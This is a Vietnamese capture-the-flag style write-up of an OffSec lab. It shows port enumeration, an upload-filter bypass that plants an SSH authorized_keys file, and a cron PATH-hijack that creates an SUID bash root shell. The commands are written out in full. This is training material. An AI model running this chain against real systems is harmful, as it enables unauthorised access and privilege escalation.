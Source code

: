# Offsec Easy Lab Writeup: Enumeration và Privilege Escalation qua Crontab

## Mục tiêu

Lab này tập trung vào kỹ thuật enumeration và leo quyền (privilege escalation) thông qua crontab. Mục tiêu là lấy file `local.txt` và giành quyền root trên host.

## Bước 1: Enumeration

### Quét dịch vụ bằng Nmap

Sử dụng `nmap` để quét các port mở trên host mục tiêu:

```bash
nmap -sC -sV -p- <target_ip>
```

**Kết quả**:

- **Port 21**: Dịch vụ FTP, hỗ trợ đăng nhập `anonymous`.
- **Port 25022**: Dịch vụ SSH.
- **Port 33414**: Dịch vụ web.
- **Port 40080**: Dịch vụ web.

### Kiểm tra các port

1. **Port 21 (FTP)**:
    
    - Thử đăng nhập bằng `anonymous`:
        
        ```bash
        ftp <target_ip> 21
        ```
        
    - Kết quả: Có thể đăng nhập nhưng không thể tải file lên hoặc xuống. Tạm dừng hướng này.
2. **Port 33414 (Web)**:
    
    - Sử dụng `FFUF` để tìm các đường dẫn ẩn:
        
        ```bash
        ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<target_ip>:33414/FUZZ
        ```
        
    - Kết quả: Tìm thấy các endpoint `/help` và `/info`.
    - Truy cập `/help` phát hiện hai endpoint quan trọng:
        - `/file-upload`: Cho phép upload file.
        - `/files`: Liệt kê các file trong thư mục.
3. **Port 40080 (Web)**:
    
    - Dùng `FFUF` để fuzz nhưng không tìm thấy đường dẫn ẩn nào đáng chú ý. Tạm dừng hướng này.

## Bước 2: Khai thác dịch vụ web (Port 33414)

### Kiểm tra endpoint `/files`

- Truy cập `/files` để liệt kê các file trong thư mục của user `alfredo`:
    - Phát hiện file `local.txt` (mục tiêu) và thư mục `.ssh`.
    - Giả định: Web server chạy dưới quyền user `alfredo`, có thể ghi file vào thư mục `.ssh`.

### Upload file vào thư mục `.ssh`

1. **Tạo SSH keypair**:
    
    ```bash
    ssh-keygen -t rsa -f id_rsa
    ```
    
    - Tạo file `id_rsa` (private key) và `id_rsa.pub` (public key).
2. **Thử upload file**:
    
    - Sử dụng `curl` để upload file `id_rsa.pub` vào thư mục `.ssh` với tên `authorized_keys`:
        
        ```bash
        curl -F "file=@id_rsa.pub" -F "filename=authorized_keys" http://<target_ip>:33414/file-upload
        ```
        
    - Kết quả: Thất bại do server chỉ cho phép các định dạng `.txt`, `.pdf`, `.png`, v.v.
3. **Bypass hạn chế định dạng**:
    
    - Đổi tên file `id_rsa.pub` thành `id_rsa.txt`:
        
        ```bash
        cp id_rsa.pub id_rsa.txt
        ```
        
    - Upload lại với tên `authorized_keys`:
        
        ```bash
        curl -F "file=@id_rsa.txt" -F "filename=authorized_keys" http://<target_ip>:33414/file-upload
        ```
        
    - Kết quả: Upload thành công.
4. **Đăng nhập SSH**:
    
    - Sử dụng private key để đăng nhập:
        
        ```bash
        ssh -i id_rsa alfredo@<target_ip> -p 25022
        ```
        
    - Kết quả: Đăng nhập thành công và lấy được file `local.txt`.

## Bước 3: Privilege Escalation

### Kiểm tra crontab

- Đọc file `/etc/crontab` để tìm các cronjob:
    
    ```bash
    cat /etc/crontab
    ```
    
- Kết quả: Phát hiện một script chạy với quyền root mỗi phút một lần:
    
    ```bash
    * * * * * root /home/alfredo/restapi/backup.sh
    ```
    

### Phân tích script `backup.sh`

- Đọc nội dung script:
    
    ```bash
    cat /home/alfredo/restapi/backup.sh
    ```
    
- Nội dung script sử dụng lệnh `tar` với wildcard (`*`) và export một đường dẫn vào `$PATH`:
    
    ```bash
    export PATH=/home/alfredo/restapi:$PATH
    tar -zcf /tmp/backup.tar.gz /home/alfredo/restapi/*
    ```
    

### Khai thác lỗ hổng `$PATH`

- Nhận thấy user `alfredo` có quyền ghi vào `/home/alfredo/restapi`. Có thể tạo file `tar` giả mạo để thay thế lệnh `tar` thật.
- Tạo script giả mạo `tar`:
    
    ```bash
    echo -e '#!/bin/sh\ncp /bin/bash /home/alfredo/rootbash\nchmod +4755 /home/alfredo/rootbash' > /home/alfredo/restapi/tar
    chmod +x /home/alfredo/restapi/tar
    ```
    
- Script này sao chép `/bin/bash` thành `rootbash` và thêm quyền SUID.

### Kết quả

- Sau khi chờ khoảng 1 phút, cronjob chạy và tạo file `/home/alfredo/rootbash` với quyền SUID.
- Chạy lệnh để lấy quyền root:
    
    ```bash
    /home/alfredo/rootbash -p
    ```
    
- Kết quả: Lấy được quyền root thành công.

## Bài học rút ra

1. **Enumeration kỹ lưỡng**: Quét toàn bộ port và kiểm tra từng dịch vụ là bước quan trọng để tìm điểm xâm nhập.
2. **Kiểm tra quyền truy cập**: Việc upload file vào thư mục `.ssh` cho thấy tầm quan trọng của việc kiểm tra quyền ghi trên các thư mục nhạy cảm.
3. **Hiểu cơ chế `$PATH`**: Lỗ hổng trong `$PATH` của cronjob có thể bị khai thác để thực thi lệnh giả mạo.
4. **Kiên trì thử nghiệm**: Thử bypass hạn chế upload bằng cách đổi đuôi file là cách tiếp cận sáng tạo và hiệu quả.